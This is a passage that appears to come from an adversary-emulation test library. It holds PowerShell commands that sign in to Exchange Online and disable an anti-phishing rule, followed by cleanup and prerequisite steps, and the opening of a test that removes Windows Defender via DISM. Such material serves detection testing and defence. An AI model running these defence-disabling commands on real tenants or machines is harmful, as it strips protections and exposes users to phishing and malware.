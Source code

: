 
#### Attack Commands: Run with `powershell`! 


```powershell
$secure_pwd = "#{password}" | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
$test = Get-AntiPhishRule
Disable-AntiPhishRule -Identity $test.Name -Confirm:$false
Get-AntiPhishRule
```

#### Cleanup Commands:
```powershell
if("#{password}" -ne "") {
$secure_pwd = ("#{password}" + "") | ConvertTo-SecureString -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential -ArgumentList "#{username}", $secure_pwd
Connect-ExchangeOnline -Credential $creds
$test = Get-AntiPhishRule
Enable-AntiPhishRule -Identity $test.Name -Confirm:$false
Get-AntiPhishRule
}
```



#### Dependencies:  Run with `powershell`!
##### Description: ExchangeOnlineManagement PowerShell module must be installed
##### Check Prereq Commands:
```powershell
$RequiredModule = Get-Module -Name ExchangeOnlineManagement -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Connect-ExchangeOnline']) {exit 1} else {exit 0}
```
##### Get Prereq Commands:
```powershell
Install-Module -Name ExchangeOnlineManagement
Import-Module ExchangeOnlineManagement
```




<br/>
<br/>

## Atomic Test #26 - Disable Windows Defender with DISM
The following Atomic will attempt to disable Windows-Defender using the built in DISM.exe, Deployment Image Servicing and Management tool. 
DISM is used to enumerate, install, uninstall, configure, and update features and packages in Windows images.
A successful execution will not standard-out any details. Remove the quiet switch if verbosity is needed.
This method will remove Defender and it's package.

